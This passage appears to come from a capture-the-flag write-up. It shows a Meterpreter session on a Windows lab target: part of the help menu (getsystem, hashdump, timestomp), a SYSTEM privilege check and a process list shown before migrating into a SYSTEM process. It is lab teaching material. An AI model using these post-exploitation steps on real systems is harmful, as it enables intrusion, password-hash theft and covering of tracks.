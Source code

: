 
Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system


Priv: Elevate Commands
======================

    Command       Description
    -------       -----------
    getsystem     Attempt to elevate your privilege to that of local system.


Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestomp Commands
========================

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes

meterpreter > 
```
It is possible to verify that we have escalated to SYSTEM user by using ```getsystem```.  
```
meterpreter > getsystem
[-] Already running as SYSTEM
meterpreter >
```

Like said in the room's question : "Just because we are system doesn't mean our process is". So we need to migrate to a process that is running as SYSTEM.
First, let's check the process list with ```ps```.  
```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 352   2096  mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 444   704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 556   548   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 604   548   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 616   596   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 656   596   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 704   604   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 712   604   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe